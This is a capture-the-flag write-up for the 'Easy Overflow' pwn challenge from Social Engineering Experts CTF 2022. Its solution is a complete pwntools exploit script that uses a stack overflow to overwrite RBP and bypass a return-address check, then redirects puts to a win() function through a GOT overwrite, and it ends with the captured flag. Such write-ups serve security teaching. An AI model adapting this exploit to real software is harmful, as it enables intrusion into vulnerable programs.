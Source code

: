 ```yaml
---
name: Easy Overflow (2022)
event: Social Engineering Experts CTF 2022
category: Pwn
description: Writeup for Easy Overflow (Pwn) - Social Engineering Experts CTF (2022) 💜
layout:
    title:
        visible: true
    description:
        visible: true
    tableOfContents:
        visible: false
    outline:
        visible: true
    pagination:
        visible: true
---
```


# Easy Overflow

## Video Walkthrough

[![VIDEO](https://img.youtube.com/vi/-cc4U1H53F8/0.jpg)](https://youtu.be/-cc4U1H53F8?t=2362 "Social Engineering Experts CTF 2022: Easy Overflow")

## Description

> I did a check on my return address. Now you shouldn't be able to control my RIP.

## Solution

```py
from pwn import *

# Allows you to switch between local/GDB/remote from terminal
def start(argv=[], *a, **kw):
    if args.GDB:  # Set GDBscript below
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:  # ('server', 'port')
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    else:  # Run locally
        return process([exe] + argv, *a, **kw)

# Specify GDB script here (breakpoints etc)
gdbscript = '''
init-pwndbg
break *0x4011ca
break *0x401247
continue
'''.format(**locals())

# Binary filename
exe = './easy_overflow'
# This will automatically get context arch, bits, os etc
elf = context.binary = ELF(exe, checksec=False)
# Change logging level to help with debugging (error/warning/info/debug)
context.log_level = 'debug'

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Start program
io = start()

# Build the payload
payload = flat([
    b'A' * 32,  # Pad to stack
    # Overwrite RBP with address of got.gets()
    elf.got.gets,  # This will become got.puts
    0x401212  # Address required to meet RIP check
])

# Send the payload
io.sendlineafter(b'I will let you  overflow me.', payload)

# Write the address of win() into puts()
io.sendlineafter(b'I will give you one more chance.', flat(elf.functions.win))

# Got Flag?
io.interactive()
```

Flag: `SEE{R1P_15_K1NG_RBP_15_QU33N_31cfc2f963517cd7e1b33b84a0e6bea2}`
